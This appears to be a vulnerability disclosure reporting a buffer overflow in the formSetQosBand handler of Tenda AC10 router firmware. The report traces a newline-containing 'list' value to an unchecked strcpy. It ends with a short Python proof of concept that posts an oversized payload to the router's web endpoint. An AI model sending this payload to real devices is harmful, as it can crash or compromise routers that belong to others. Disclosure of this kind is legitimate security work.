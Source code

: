 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](9.png)

get value from list ,then call setQosMiblist

![](10.png)

p equal list, if list have '\n', get into while

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/formSetQosBand"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
``` 
